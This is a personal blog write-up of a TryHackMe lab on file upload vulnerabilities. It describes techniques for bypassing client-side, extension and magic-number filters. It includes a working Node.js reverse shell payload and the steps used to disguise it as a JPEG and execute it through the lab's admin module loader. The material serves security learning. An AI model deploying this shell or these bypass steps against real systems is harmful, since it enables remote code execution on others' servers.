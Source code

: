 # TryHackMe: Complete Beginner

## Upload Vulnerabilities

### Bypassing Client-Side Filtering

How to bypass:

* Just turn off JavaScript.
* Use Burp Suite to modify the incoming page to remove the filter (often needs to be done before the page is loaded).
* Use Burp Suite to modify the file upload *after* it has passed the filters.
* Use curl to send the file directly to the upload endpoint (make a good upload first to see what that looks like).

To modify the page in Burp Suite, first get the server response by right-clicking on the outgoing intercept and choosing Do intercept > Response to this request. When we forward the request, the response will then be intercepted, and we can modify it as desired.

NOTE: Burp Suite does not intercept JavaScript files; to do this, we'll need to modify the proxy's default file extension filter under "Options".

Modifying the file upload itself is much easier, as this can be done using Burp Suite's normal interception flow. Note that Burp Suite *cannot* attach new files, so we'll need to modify the upload file (extension, etc.) to get past the filters, then undo our changes in the outgoing request.

Sending a file via curl is basically the same procedure as modify the file upload request, except that we let a good file go through so we can see the upload endpoint and then communicate with that directly.

```bash
curl -X POST -F "submit=$SUBMIT_VALUE" -F "${FILE_INPUT NAME}=@$PATH_TO_FILE" $URL
```

### Bypassing Server-Side Filtering: File Extensions

Basically, bypassing server-side filters is going to involve a lot of trial and error until we figure out what the filter is (and how to work around it).

The trick, of course, is not only that you need to upload your file, but that you need to use an extension that the server will execute!

Note that sometimes developers just check to see if a valid extension exists within a file, so things like reverse-shell.jpg.php will work. Happy days if this is you.

Common file extensions for [PHP](https://en.wikipedia.org/wiki/PHP):

* .php
* .phar
* .phtml
* .pht
* .phps (though I've always seen this as *source* code)
* .php# (where `#` is the running PHP major version)

### Bypassing Server-Side Filtering: Magic Numbers

To recap: This is (generally) the first 4 bytes of a file. Apparently, text files don't have magic number, so one trick you can do is just insert four ASCII characters in the front of your file and then use a hex editor to change them to an appropriate magic number.

[Wikipedia's list of magic numbers.](https://en.wikipedia.org/wiki/List_of_file_signatures)

The `hexeditor` app is a quick-and-easy hex editor, and `file` can give you a sense of whether you've effectively spoofed a file's magic number.

Note that this can be a lot trickier if you're not dealing with PHP, since many languages don't have PHP's concept of interpreted vs. non-interpreted bits.

### Example Methodology

The `Server` and `X-Powered-By` HTTP headers, if present, can be handy for figuring out what language we're dealing with.

Since many servers turn off directory indexing and randomize file names, its helpful if we can figure out some place that displays or links to the file we just uploaded. If there's no option here, gobuster's -x switch allows a search for specific file extensions (but then the search is *within* a particular directory).

There's probably server-side filtering, so bypass everything client-side and then look for an error message. Using curl to hit an endpoint directly is probably not as useful as Burp Suite here... Tricks:

* Use completely valid and invalid extensions to check for the presence of white/blacklists.
* Try changing the magic number of a known good file to see if magic number filtering is in place.

### Challenge

Potentially interesting directories in /content, /assets, /modules, /admin.

The provided wordlist is combinations of three capital letters. The backgrounds files also follow this pattern (ABH.jpg, LKQ.jpg, SAD.jpg, UAD.jpg). All backgrounds are located in the /content directory (and the form says that uploaded files will be added to the slides), so I'll bet that this is where uploaded files go. I did one good upload (and then a scan with gobuster) to verify this.

The server's response when loading a page indicates that it is running [Express](http://expressjs.com/). So we'll need a Node.js compatible reverse shell. I used the first option from the [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) (note that the port and IP address in line 6 need to be customized).

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents the Node.js application from crashing
})();
```

(NOTE: I actually tried the more compact shell listed after this on the Reverse Shell Cheat Sheet, but it didn't work.)

The /assets/js/upload.js script handles uploads. It requires files less than 400k in size with the first three bytes matching the JPG magic number (these are the only three bytes that are consistent between all JPG magic numbers) and an extension of .jpg or .jpeg.

Initially I tried to add the relevant magic bytes to the front of my JS file with the idea that I would edit them out of the request once they made it through the client-side filtering. However, when I viewed the request I discovered that content was base64 encoded, so I just used `base64 -w 0` to encode the shell *without* the leading bytes and replaced the uploaded file entirely.

(NOTE: Initially I changed the MIME type to text/plain, but the server rejected this. Leaving it as image/jpeg worked though, no matter what the file extension. Note that the MIME type on the base64-encoded line didn't seem to matter.)

Re-scanning the /content directory with gobuster for .js files revealed nothing, but rescanning for .jpg revealed that the server was renaming all files with the .jpg extension. Fortunately, the uploaded shell was so much smaller than either the pre-existing images or my uploaded test that it was easy to pick out

THIS IS WHERE I GOT STUCK. I finally wound up looking at the [challenge hints](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/), most of which it turned out I'd already figured out. But Hint 9 suggested looking at the /admin page, which I hadn't bothered to try to visit. LET THAT BE A LESSON TO ME — POKE AROUND MORE!

The admin page indicates that it loads modules, so this is how we're going to get the Express app to execute the reverse shell (I'd been wondering how I was going to get it loaded into memory up until this point). Loading ../content/XKM.jpg (which is where my shell wound up) in this page resulted popped the shell, after which grabbing the flag was easy.

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 9, 2021
